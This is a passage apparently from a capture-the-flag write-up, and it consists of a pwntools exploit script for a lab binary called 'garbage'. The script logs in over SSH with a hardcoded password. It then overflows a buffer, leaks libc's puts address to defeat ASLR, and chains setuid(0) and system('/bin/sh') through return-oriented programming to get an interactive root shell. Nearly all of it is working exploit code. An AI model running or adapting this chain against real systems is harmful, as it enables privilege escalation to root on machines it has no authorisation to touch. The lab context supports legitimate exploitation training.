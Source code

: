 
### Version b: Auto exploitation using pwntool's `rop` lib

```python
from pwn import *
import cryptography.utils
import warnings

warnings.simplefilter("ignore", cryptography.utils.DeprecatedIn25)

context(terminal=['tmux', 'new-window'])

# p = process('./garbage')
# p = gdb.debug('./garbage', 'b auth')
shell = ssh('margo', '10.10.10.139', password='iamgod$08', port=22)
p = shell.run('/usr/bin/garbage')

context(os='linux', arch='amd64')
# context.log_level = 'debug'

log.info("Mapping binaries")
garbage = ELF("garbage")
rop = ROP(garbage)
libc = ELF("libc.so.6")

# Stage 1: Leak memory address
junk = 'A' * 136
rop.search(regs=['rdi'], order = 'regs')
rop.puts(garbage.got['puts'])
rop.call(garbage.symbols['main'])
log.info("Stage 1 ROP chain:\n" + rop.dump())

# raw_input()

payload = junk + str(rop)

p.sendline(payload)
p.recvuntil("access denied.\n")
leaked_puts = p.recvline()[:8].strip().ljust(8, "\x00")
log.success("Leaked puts@GLIBCL: {}".format(leaked_puts))
leaked_puts = u64(leaked_puts)

# Stage 2: Call system
libc.address = leaked_puts - libc.symbols['puts']
rop2 = ROP(libc)
rop2.setuid(0)
rop2.system(next(libc.search('/bin/sh\x00')))
log.info("Stage 2 ROP chain:\n" + rop2.dump())

payload = junk + str(rop2)

p.sendline(payload)
p.recvuntil("access denied.\n")
# raw_input()
p.interactive()
```
